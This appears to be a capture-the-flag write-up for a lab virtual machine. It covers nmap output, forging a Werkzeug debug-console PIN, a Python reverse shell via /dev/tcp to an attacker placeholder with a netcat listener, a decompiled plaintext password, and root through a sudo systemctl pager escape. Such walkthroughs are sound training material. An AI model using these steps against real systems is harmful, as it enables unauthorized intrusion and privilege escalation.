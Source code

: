 # Writeup

## Running initial nmap scan
```bash
sudo nmap -sC -sT -sV -A <IP> -oN nmap
```

The output is as follows:
```
# Nmap 7.94 scan initiated Wed Oct  4 20:17:06 2023 as: nmap -sC -sT -sV -A -oN nmap/initial 192.168.183.122
Nmap scan report for 192.168.183.122
Host is up (0.00047s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 64:8d:51:2b:2b:25:ed:2e:3f:60:9b:39:98:53:6c:56 (RSA)
|   256 e8:52:1a:c1:a9:49:01:f9:14:a3:0d:2c:6c:75:6e:ee (ECDSA)
|_  256 bc:e6:cb:e8:ff:4a:67:09:85:77:6f:d6:5a:62:42:c5 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Site Under Construction
5000/tcp open  upnp?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.0 Python/3.8.10
|     Date: Wed, 04 Oct 2023 14:47:13 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 220
|     Connection: close
|     This is a development server
|     mac_address: 197444420749453
|     machine id: 1a77c4feaeab4506843f3082decdb7cc
|     running in: /usr/local/lib/python3.8/dist-packages/flask/app.py
|     username: python
|     date: unavailable
|     server id: srv01
|   HTTPOptions:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.0 Python/3.8.10
|     Date: Wed, 04 Oct 2023 14:47:28 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|     Connection: close
|   Help:
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request syntax ('HELP').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|     </html>
|   RTSPRequest:
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94%I=7%D=10/4%Time=651D7AF1%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,18A,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/3\.0\.0\x20
SF:Python/3\.8\.10\r\nDate:\x20Wed,\x2004\x20Oct\x202023\x2014:47:13\x20GM
SF:T\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:0220\r\nConnection:\x20close\r\n\r\nThis\x20is\x20a\x20development\x20s
SF:erver\nmac_address:\x20197444420749453\nmachine\x20id:\x201a77c4feaeab4
SF:506843f3082decdb7cc\n\nrunning\x20in:\x20/usr/local/lib/python3\.8/dist
SF:-packages/flask/app\.py\nusername:\x20python\n\x20date:\x20unavailable\
SF:nserver\x20id:\x20srv01")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTML\x20PUBLI
SF:C\x20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20
SF:\x20<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Conte
SF:nt-Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20
SF:\x20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n
SF:\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20re
SF:sponse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</
SF:p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20ve
SF:rsion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Erro
SF:r\x20code\x20explanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20req
SF:uest\x20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</
SF:body>\n</html>\n")%r(HTTPOptions,C7,"HTTP/1\.1\x20200\x20OK\r\nServer:\
SF:x20Werkzeug/3\.0\.0\x20Python/3\.8\.10\r\nDate:\x20Wed,\x2004\x20Oct\x2
SF:02023\x2014:47:28\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-
SF:8\r\nAllow:\x20GET,\x20HEAD,\x20OPTIONS\r\nContent-Length:\x200\r\nConn
SF:ection:\x20close\r\n\r\n")%r(Help,1EF,"<!DOCTYPE\x20HTML\x20PUBLIC\x20\
SF:"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20\x20\"
SF:http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20\x20<h
SF:ead>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Typ
SF:e\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\x
SF:20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20response
SF:</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20syntax\x
SF:20\('HELP'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x2
SF:0explanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20request\x20synt
SF:ax\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</htm
SF:l>\n");
MAC Address: 08:00:27:F7:15:3F (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.47 ms 192.168.183.122

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  4 20:18:41 2023 -- 1 IP address (1 host up) scanned in 95.61 seconds
```


Port 80 just tells that it is still in progress
Port 5000 is running python flask server, which gives some information
```
This is a development server
mac_address: 197444420749453
machine id: 1a77c4feaeab4506843f3082decdb7cc
running in: /usr/local/lib/python3.8/dist-packages/flask/app.py
username: python
date: unavailable
server id: srv01
```

Here, debug mode is enabled (/console) so we can generate our own pin, to access /console
We take a copy of python script available in hacktricks
```
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
```

By simply changing some values ie,
    username: python
    location of module: /usr/local/lib/python3.8/dist-packages/flask/app.py
    mac address: 197444420749453
    machine_id: 1a77c4feaeab4506843f3082decdb7cc

We will get the pin: 224-208-411

accessing /console with pin, we can get reverse shell
```python
import os
os.system("/bin/bash -c 'bash -i >& /dev/tcp/<attacker's ip>/port 0>&1'")
```
and standing up a netcat listener
```bash
nc -lnvp <port>
```

We get a shell as user python

in the /home directory, we see another user manager, he has a notes left for us
```
Hey SysAdmin, I always forget the password you gave to me, so instead of saving it to a file, I have created a c# program to give me the password, Take a look at it
```

looking into the password directory, we see it is a dotnet console project.
decompiling the code with IllSpy, we get the user password: YWprZGh3YmVqZ2hkYndqaGViZGNlZmhjbmVyCg

sshing into the machine as manager with password YWprZGh3YmVqZ2hkYndqaGViZGNlZmhjbmVyCg, we are logged in.

running,
```bash
sudo -l
```
we will see this output
```
Matching Defaults entries for manager on server:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User manager may run the following commands on server:
    (ALL : ALL) /usr/bin/systemctl status custom_app.service
    ```

so we execute that command,
```bash
sudo /usr/bin/systemctl status custom_app.service
```

and typing,
```
!bash
```
we are root.
